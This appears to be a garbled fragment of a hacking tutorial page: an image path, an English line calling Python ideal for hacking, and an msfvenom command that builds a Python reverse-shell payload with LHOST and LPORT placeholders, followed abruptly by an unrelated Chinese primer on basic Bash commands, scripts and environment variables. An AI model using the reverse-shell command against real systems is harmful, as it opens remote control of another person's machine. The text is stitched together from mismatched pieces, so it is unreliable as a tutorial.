 Python is a versatile and powerful language that is widely used in the hacking community. Its simplicity, readability, and extensive libraries make it an excellent choice for various hacking tasks.
```bash
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```
### **Bash（命令行解释器）**

Bash（Bourne Again SHell）是一种常用的命令行解释器，也是许多Linux和Unix系统的默认解释器。它提供了一种与操作系统进行交互的方式，可以执行命令、运行脚本和管理文件系统等操作。

#### **基本用法**

以下是一些常用的Bash命令：

- `ls`：列出当前目录中的文件和文件夹。
- `cd`：切换到指定目录。
- `pwd`：显示当前工作目录的路径。
- `mkdir`：创建一个新的目录。
- `rm`：删除文件或目录。
- `cp`：复制文件或目录。
- `mv`：移动文件或目录。
- `cat`：显示文件的内容。
- `grep`：在文件中搜索指定的模式。
- `chmod`：修改文件或目录的权限。

#### **脚本编写**

Bash还可以用于编写脚本，以自动化执行一系列命令。以下是一个简单的Bash脚本示例：

```bash
#!/bin/bash

# 输出当前日期和时间
echo "当前日期和时间："
date

# 列出当前目录中的文件和文件夹
echo "当前目录中的文件和文件夹："
ls
```

要运行脚本，可以使用以下命令：

```bash
bash script.sh
```

#### **环境变量**

Bash使用环境变量来存储系统和用户的配置信息。以下是一些常用的环境变量：

- `PATH`：指定可执行文件的搜索路径。
- `HOME`：当前用户的主目录。
- `USER`：当前用户名。
- `PS1`：命令行提示符的格式。
